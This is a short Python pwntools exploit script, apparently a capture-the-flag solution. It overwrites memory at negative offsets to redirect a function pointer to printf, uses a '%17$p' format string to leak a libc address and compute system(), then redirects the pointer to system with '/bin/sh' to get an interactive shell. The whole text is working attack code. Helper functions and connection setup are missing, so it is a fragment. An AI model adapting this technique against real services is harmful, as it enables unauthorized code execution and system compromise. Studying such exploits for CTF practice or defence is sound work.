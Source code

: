 ```python
def re_c(r,l):
	io.sendlineafter("> ",b"r")
	io.sendline(str(r))
	io.sendline(str(l))	
gdb.attach(io,"b *0x401605")
pr_c(0,-0x290,0x1)
bss=0x404070
i=0
while bss > 0:
	pr_c(0,-0x210+i,bss & 0xff)
	i+=1
	bss>>=8
	
re_c(1,0x10)
printf=0x401100
i=0
for i in range(8):
	pr_c(0,-0x70+i,printf & 0xff)
	printf>>=8	
	
pay=b"%17$p"
for i,j in enumerate(pay):
    pr_c(0, i, j) 
re_c(20,20)

leak=int(io.recv(14),16)
libc_base=leak-0x2a1ca
system=libc_base+0x58750 
logv("libc_base",hex(libc_base))
logv("system",hex(system))

pr_c(0,-0x290,0x1)
i=0
bss=0x404070
while bss > 0:
	pr_c(0,-0x210+i,bss & 0xff)
	i+=1
	bss>>=8
re_c(1,0x10)
for i in range(8):
	pr_c(0,-0x70+i,system & 0xff)
	system>>=8	
pay=b"/bin/sh\x00"
for i,j in enumerate(pay):
    pr_c(0, i, j)	
re_c(20,20)	
	
io.interactive()

```
